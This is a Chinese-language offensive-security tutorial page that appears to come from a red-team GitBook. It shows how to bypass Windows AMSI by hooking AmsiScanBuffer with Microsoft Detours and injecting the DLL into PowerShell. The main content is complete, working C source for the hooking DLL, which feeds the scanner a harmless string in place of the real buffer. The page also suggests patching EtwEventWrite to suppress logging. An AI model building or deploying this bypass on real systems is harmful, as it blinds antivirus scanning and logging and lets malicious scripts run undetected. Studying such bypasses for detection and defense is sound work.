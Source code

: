 # 基于API Hook和DLL注入的AMSI绕过

## 简介

前面我们有详细的介绍过AMSI的原理和基于内存补丁的绕过方法，这次我们介绍一种略微复杂的方法，同时这种方法也可以应用于各种场景，前面我们有介绍过通过微软开源库[Detours](../persistence/detous-inline-hook.md)的inLineHook和[进程注入](../code-and-dll-process-injection/createremotethread.md)的dll注入，这次我们把这两种技术做一个组合，来实现amsi的绕过，同样的思路也可以对 EtwEventWrite进行修补，使其丧失记录日志能力。

## 流程

1. 编写一个hook AmsiScanBuffer的dll
2. 使用[dll注入](../code-and-dll-process-injection/createremotethread.md#42-dll-zhu-ru)进powershell进程
3. 完成绕过

## 代码

dll注入的代码延用[CreateRemoteThrea](../code-and-dll-process-injection/createremotethread.md)的代码。

```text
#include <Windows.h>
#include <stdio.h>
#include <amsi.h>
#include "include/detours.h"
#pragma comment(lib, "amsi.lib")
#pragma comment(lib,"lib.X64/detours.lib")

#define SafeString "SafeString"

static HRESULT(WINAPI* _AmsiScanBuffer)(
    HAMSICONTEXT amsiContext,
    PVOID        buffer,
    ULONG        length,
    LPCWSTR      contentName,
    HAMSISESSION amsiSession,
    AMSI_RESULT* result
    ) = AmsiScanBuffer;

HRESULT WINAPI AmsiScanBuffer_(
    HAMSICONTEXT amsiContext,
    PVOID        buffer,
    ULONG        length,
    LPCWSTR      contentName,
    HAMSISESSION amsiSession,
    AMSI_RESULT* result
) 
{
    return _AmsiScanBuffer(amsiContext, (BYTE*)SafeString, length, contentName, amsiSession, result);
}


BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        DetourTransactionBegin();
        DetourUpdateThread(GetCurrentThread());
        DetourAttach(&(PVOID&)_AmsiScanBuffer, AmsiScanBuffer_);
        DetourTransactionCommit();
        printf("hook ok\n");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        DetourTransactionBegin();
        DetourUpdateThread(GetCurrentThread());
        DetourDetach(&(PVOID&)_AmsiScanBuffer, AmsiScanBuffer_);
        DetourTransactionCommit();
        break;
    }
    return TRUE;

}
```

![](../.gitbook/assets/image%20%28114%29.png)

## LINKS

{% embed url="https://x64sec.sh/understanding-and-bypassing-amsi/" %}



